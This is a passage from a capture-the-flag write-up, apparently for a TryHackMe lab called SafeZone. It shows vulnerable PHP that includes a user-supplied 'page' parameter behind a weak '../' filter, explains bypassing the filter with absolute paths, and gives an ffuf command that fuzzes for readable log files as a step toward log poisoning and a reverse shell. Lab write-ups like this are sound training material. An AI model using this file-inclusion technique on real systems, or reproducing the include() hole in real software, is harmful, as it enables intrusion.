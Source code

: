 ```php
echo '</div>';
if(isset($_GET["page"]))
{
		$page=$_GET["page"];
		$file = str_replace(array( "../", "..\"" ), "", $page );
		echo $file;
		include($file);
}
$formuser=mysqli_real_escape_string($con,$_POST['name']);
if(isset($_POST['sub']))
	{
		$sql="select * from user where username='$formuser'";
                $details = mysqli_fetch_assoc(mysqli_query($con,$sql));
		$det=json_encode($details);
		echo "<pre style='color:red;font-size:14px'>$det</pre>";
		$msg="Details are saved in a file";
		echo "<script>alert('details saved in a file')</script>";
	}
}
else
{
echo "<h3 style='color:red;text-align:center'>You can't access this feature!'</h3>";
}
}
else
{
header('Location: index.php');
}

?>
```

In the `$file` variable, it replacing from `../` to `.."`. **But we can bypass it via providing an absolute path.**

Anyway, let's test can we read log files. **If we can, we can do LFI log poisoning.**

**To do so, I'll start fuzzing via `ffuf`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://safezone.thm/detail.php?page=FUZZ -b "PHPSESSID=3ibin405cjdtvgnju20k1sfa6g" -fw 120
[...]
/var/log/apache2/access.log [Status: 200, Size: 53032362, Words: 5952188, Lines: 501742, Duration: 611ms]
[...]
```

**We can read `/var/log/apache2/access.log`, which means we can do LFI log poisoning, and get a reverse shell!**
